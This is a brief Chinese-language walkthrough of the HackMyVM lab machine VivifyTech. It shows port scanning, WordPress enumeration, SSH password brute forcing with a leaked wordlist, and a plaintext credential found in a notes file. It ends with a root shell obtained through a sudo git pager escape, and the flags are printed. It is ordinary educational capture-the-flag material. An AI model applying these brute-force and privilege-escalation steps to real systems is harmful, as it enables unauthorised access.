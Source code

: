 # VivifyTech

2025.03.13 https://hackmyvm.eu/machines/machine.php?vm=VivifyTech

[video](https://www.bilibili.com/video/BV1ZYQNYjEdy/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

web 扫描发现 http://192.168.5.39/wordpress/ , 先上 wpscan 发现用户名 sancelisso 爆破没戏。

再次扫描 wordpress，发现这个 url http://192.168.5.39/wordpress/wp-includes/secrets.txt 里面存有密码字典，再次使用这个字典爆破 wordpress 也没成功。

在下面这个帖子的标题上看到 The story behind VivifyTech 可能有提示， http://192.168.5.39/wordpress/index.php/2023/12/05/the-story-behind-vivifytech/ 中找到了几个这个公司的人员的姓名：

```
sarah
mark
emily
jake
alex
```

目前还有一个 ssh 途径，使用上面的到的 secret.txt 和存在的用户名，进行爆破：

```
[22][ssh] host: 192.168.5.39   login: sarah   password: bohicon
```

进行 ssh 登陆，先读取到 user flag：

```
sarah@VivifyTech:~$ cat user.txt
HMV{Y0u_G07_Th15_0ne_6543}
```

枚举后，发现提示文件：

```
sarah@VivifyTech:~$ cat /home/sarah/.private/Tasks.txt
- Change the Design and architecture of the website
- Plan for an audit, it seems like our website is vulnerable
- Remind the team we need to schedule a party before going to holidays
- Give this cred to the new intern for some tasks assigned to him - gbodja:4Tch055ouy370N
```

新的用户凭据 gbodja:4Tch055ouy370N 切换后 sudo 显示 (ALL) NOPASSWD: /usr/bin/git 提权到 root：

```
sudo git -p help config
!/bin/sh
```

拿到 root flag：

```
root@VivifyTech:~# cat root.txt
HMV{Y4NV!7Ch3N1N_Y0u_4r3_7h3_R007_8672}
```
